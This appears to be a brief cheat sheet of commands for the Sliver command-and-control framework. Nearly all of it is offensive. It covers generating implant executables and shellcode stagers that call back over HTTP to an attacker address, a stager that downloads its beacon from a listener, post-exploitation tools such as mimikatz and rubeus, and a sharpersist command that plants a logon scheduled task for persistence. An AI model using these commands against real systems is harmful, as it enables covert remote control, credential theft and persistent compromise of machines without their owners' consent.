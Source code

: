 * import profile `sliver-client-linux import [PROFILE.cfg]`
* jobs - running listeners
* sessions - running sessions

## Payloads
* `generate --http [ADDR]:[PORT] -f exe --skip-symbols`
* `--os [Windows|Linux]`
* `--arch [x64|x64|ARM]`
* beacons will sleep by default for 60 seconds `interactive` makes it more like a shell

## Sessions
* `sessions -i [ID]` to interact
* `use [BEACON]` to interact

## Armory
* extension engine that lets you run post exploitation tools in sliver
* mimikatz, bloodhound, seatbelt, rubeus, etc.
* sharpersist - installs persistence automatically
		* `sharpersist -- -t schtask -c '[PATH]' -n "WinStart" -m add -o logon`

## Chains
* instead of your sliver server being a listener the beacon becomes a listener
* creates a chain of beacons > if one goes down you lose the rest of the chain

## Stagers
* you create a profile that determines how things behave
* `profiles new --http IP:80 --format shellcode --jitter 3 --arch amd64 win64` creates a profile
* `stage-listener --url http:URL:PORT --profile win64` creates the stager listener
* `generate stager --lhost IP --lport PORT --arch amd64 --os windows` creates the actual stager
* stager will reach out to the listener to download the beacon
